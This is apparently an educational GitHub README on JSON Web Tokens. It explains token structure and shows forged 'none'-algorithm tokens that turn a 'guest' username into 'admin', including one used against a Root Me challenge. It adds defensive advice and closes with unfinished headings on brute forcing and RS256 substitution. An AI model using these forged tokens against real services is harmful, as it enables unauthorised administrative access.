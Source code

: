 # Projet-JWT
Understanding, bypass and securing of Json Web Tokens (JWT)

* ### Prerequisites
Json Web Tokens allow the secure exchange of tokens between several parties. The security of the exchange translates into the verification of the integrity and authenticity of the data. It is carried out using multiple algorithms.

A token consists of three parts :
- A header, used to describe the token.
- A payload, which represents the information embedded in the token.
- A digital signature.

Example :
<br/> Header : {"alg": "HS256", "typ": "JWT"}
<br/> Payload : {"name":"JulienFink", "iat":1533777438}
<br/> Signature : 4V7KzBemrVji_kCyzGO3lQMZlBuVxryF3YhmMIr4kWI

The signature is crafted using a secret - "Azerty123" in our case.

The "header", "payload" and "signature" parts are then encoded using base64url.

The complete JWT is a concatenation of these three parts, separated by a point (exception for the 'none' algorithm, which only has 2 parts - header and payload).

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiSnVsaWVuRmluayIsImlhdCI6MTUzMzc3NzQzOH0.KJFzGjs_75Q56mY9QXqpEKU-wE2o3ufF3ZxfIUaexwI
```

Useful links for an overall understanding :
<br/> https://fr.wikipedia.org/wiki/JSON_Web_Token
<br/> https://jwt.io/
<br/> https://www.base64url.com/

* ### Absusing 'none' algorithm

Let us assume you don't have an account on a website, you don't want to create one and you decide to log in as a guest.
A JWT is assigned to your newly created session:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6Imd1ZXN0In0.
{"typ":"JWT","alg":"none"}.{"username":"guest"}.
```

eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6Imd1ZXN0In0.
<br/> {"typ":"JWT","alg":"none"}.{"username":"guest"}.

What would happen if we decided to change the value of the username to "admin" ? We would get a new valid JWT and thus get access to the admin section.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.
{"typ":"JWT","alg":"none"}.{"username":"admin"}.
```

```diff
+ To avoid this type of Pr0bL3m, do not use 'none' algorithm.
```

* ### Signature stripping attack

What if we decided to change the algorithm to 'none' in the header part in order to exploit the previous vulnerability ? Let us try the following on a Root Me challenge...

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk
{"typ":"JWT","alg":"HS256"}.{"username":"guest"}.'a signature crafted using a secret unknown to us'
```

We can craft our own JWT :
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.
{"typ":"JWT","alg":"none"}.{"username":"admin"}.
```

Works !

![JWT blur](https://user-images.githubusercontent.com/64968597/135341742-d1aae0d8-deaa-4a66-9202-85529e982067.png)
<br/> https://www.root-me.org/fr/Challenges/Web-Serveur/JSON-Web-Token-JWT-Introduction

```diff
+ To avoid this type of Pr0bL3m, use a whitelist of allowed algorithms. ['HS256']
- ['None']
```

* ### Brute forcing HS256 secret key

The HS256 algorithm uses a secret value to define the signature like so :
```
HMACSHA256(concatenation, 'my_very_secret_key')
```
If the secret key is weak enough, we can brute force it using several tools like 'jwtcrack' :



* ### Substitution attack for RS256 algorithm
